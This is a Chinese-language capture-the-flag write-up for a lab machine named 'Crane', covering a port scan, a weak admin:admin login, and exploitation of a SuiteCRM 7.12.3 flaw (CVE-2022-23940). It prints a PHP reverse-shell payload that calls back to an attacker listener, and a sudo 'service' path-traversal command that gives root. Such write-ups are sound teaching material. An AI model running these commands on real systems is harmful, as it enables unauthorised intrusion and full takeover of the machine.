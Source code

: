 ```yaml
---
description: Easy - Linux / SuiteCRM 7.12.3 / CVE-2022-23940 / NOPASSWD提权
---
```


# ✔️ Crane

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到4个端口：22 / 80 / 3306 / 33060

```bash
nmap -sC -sV -p- -oA crane 192.168.178.146 --open 
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，尝试弱口令成功：**admin : admin**

<figure><img src="../../.gitbook/assets/2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 并查询到了当前正在运行的程序SuiteCRM的版本号：**v7.12.3**

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 查看/robots.txt文件，返现一个名为 **/ical\_server.php** 的php文件，将其下载到本地：

<figure><img src="../../.gitbook/assets/3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前已知的程序及其版本号**SuiteCRM 7.12.3**，搜索到了公开的已知漏洞可以利用：**CVE-2022-23940**

<figure><img src="../../.gitbook/assets/7 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 下载该脚本，并执行：

```bash
python3 exploit.py -h http://192.168.178.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.240\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'" 

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/10 (1) (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 成功获取到shell：

<figure><img src="../../.gitbook/assets/9 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举，发现 **/usr/sbin/service**程序不需要密码即可以root身份运行：

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该程序进行提权：

```bash
sudo /usr/sbin/service ../../../../../bin/bash
```

<figure><img src="../../.gitbook/assets/12 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>
